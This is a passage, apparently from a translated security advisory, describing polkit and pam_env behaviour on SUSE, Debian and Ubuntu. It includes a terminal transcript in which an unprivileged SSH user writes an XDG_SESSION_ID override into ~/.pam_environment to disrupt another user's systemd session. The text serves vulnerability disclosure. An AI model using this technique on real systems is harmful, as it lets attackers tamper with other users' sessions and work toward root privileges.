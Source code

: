 最后补充说明：SUSE Linux Enterprise Server 15 使用的是 "restrictive"（限制性）polkit 设置，而不是 "standard"（标准）设置；因此，我们必须调用 CanSuspend()（其设置为 "auth_admin_keep:auth_admin_keep:yes"）而不是 CanReboot()（其设置为 "auth_admin_keep"）来确定我们是否被认证为物理的 "allow_active" 用户。  
  
我们将在本公告的下一节中探讨一种简单的方法，将这个小的本地权限提升（LPE，从非特权用户到 "allow_active" 用户）转化为完整的 root 权限提升（LPE）；但在此之前，我们先做一个简短的插叙。  
  
插叙  
  
在 Debian 12 和 Ubuntu 24.04 上，当非特权用户通过 sshd 登录时，PAM 的 pam_env 模块（来自 Linux-PAM 1.5.x）也会读取该用户的 ~/.pam_environment 文件，因为 pam_env 的 "user_readenv" 在 /etc/pam.d/sshd 中被显式设置为 1（自 Linux-PAM 1.4.0 以来，默认值为 0）。  
  
然而，与 openSUSE Leap 和 SUSE Linux Enterprise 不同，Debian 和 Ubuntu 只在 PAM 的 "session" 堆栈的最后调用 pam_env 模块，因此该用户的任意 PAM 变量（来自 ~/.pam_environment）不会干扰 pam_systemd 模块的 pam_sm_open_session() 代码。  
  
尽管如此，我们注意到，通过设置 XDG_SESSION_ID 变量（在 ~/.pam_environment 中）为另一个用户的会话 ID，非特权的本地攻击者可以干扰 pam_systemd 模块的 pam_sm_close_session() 代码，从而干扰该其他用户的会话（例如，将其标记为 "closing" 而不是 "active"，并删除其 .ref FIFO）：  
```
attacker$ ssh evey@victim
evey@victim's password:

victim$ grep PRETTY_NAME= /etc/os-release
PRETTY_NAME="Ubuntu 24.04.2 LTS"

victim$ id
uid=1001(evey) gid=1001(evey) groups=1001(evey),100(users)

victim$ ls -l /run/systemd/sessions
total 8
-rw-r--r-- 1 root root 314 May 13 21:25 4
prw------- 1 root root   0 May 13 21:25 4.ref
-rw-r--r-- 1 root root 310 May 13 21:33 6
prw------- 1 root root   0 May 13 21:33 6.ref

victim$ cat /run/systemd/sessions/4

# This is private data. Do not parse

UID=1000
USER=theadmin
...
STATE=active
...
FIFO=/run/systemd/sessions/4.ref
...

victim$ echo 'XDG_SESSION_ID OVERRIDE=4' > .pam_environment

victim$ exit

attacker$ ssh evey@victim
evey@victim's password:

victim$ exit

attacker$ ssh evey@victim
evey@victim's password:

victim$ ls -l /run/systemd/sessions
total 8
-rw-r--r-- 1 root root 313 May 13 22:13 16
prw------- 1 root root   0 May 13 22:13 16.ref
-rw-r--r-- 1 root root 315 May 13 22:04 4

victim$ cat /run/systemd/sessions/4

```
